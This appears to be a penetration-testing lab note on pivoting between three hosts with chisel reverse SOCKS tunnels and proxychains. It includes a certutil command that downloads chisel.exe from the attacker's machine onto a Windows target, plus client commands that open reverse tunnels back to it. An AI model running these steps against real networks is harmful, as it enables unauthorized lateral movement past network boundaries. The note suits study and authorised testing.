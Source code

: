 ```yaml
---
category: Uncategorized
tags: []
---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

https://github.com/jpillora/chisel/releases

```bash - kali
sudo mousepad /etc/proxychains4.conf
```

```bash - kali
socks5 127.0.0.1 1080
```

```bash - kali
chmod +x chisel
```

Kali:
```bash - kali
sudo ./chisel server -p 8000 --reverse 
```

Windows target:
```command prompt - windows
certutil -urlcache -split -f http://$KALI/chisel.exe
```

```command prompt - windows
chisel.exe client $KALI:8000 R:socks
```  

Linux target:
```bash - kali
chmod +x chisel
```

```bash - target
./chisel client $KALI:8000 R:socks
```

If http is available on the target, set up foxyproxy and visit:
[[1._Proxychains and FoxyProxy]]
